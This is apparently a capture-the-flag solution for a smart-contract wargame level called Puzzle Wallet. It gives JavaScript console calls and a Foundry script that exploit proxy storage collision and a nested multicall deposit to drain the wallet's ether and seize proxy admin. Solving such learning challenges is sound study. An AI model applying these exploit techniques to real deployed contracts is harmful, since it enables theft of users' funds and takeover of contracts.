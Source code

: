 ```js
multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
```
```js
await contract.execute(player, toWei('0.002'), 0x0)
```
```js
await contract.setMaxBalance(player)
```

Exploit via foundry script:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
pragma experimental ABIEncoderV2;

import "forge-std/Script.sol";
import "../instances/Ilevel24.sol";

contract POC is Script {

    PuzzleWallet wallet = PuzzleWallet(<instance addr>);
    PuzzleProxy px = PuzzleProxy(<instance addr>);

    function run() external{
        vm.startBroadcast();

        //creating encoded function data to pass into multicall
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);
        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(wallet.multicall.selector, depositSelector);

        // making ourselves owner of wallet
        px.proposeNewAdmin(msg.sender);
        //whitelisting our address
        wallet.addToWhitelist(msg.sender);
        //calling multicall with nested data stored above
        wallet.multicall{value: 0.001 ether}(nestedMulticall);
        //calling execute to drain the contract
        wallet.execute(msg.sender, 0.002 ether, "");
        //calling setMaxBalance with our address to become the admin of proxy
        wallet.setMaxBalance(uint256(msg.sender));
        //making sure our exploit worked
        console.log("New Admin is : ", px.admin());

        vm.stopBroadcast();
    }
}
```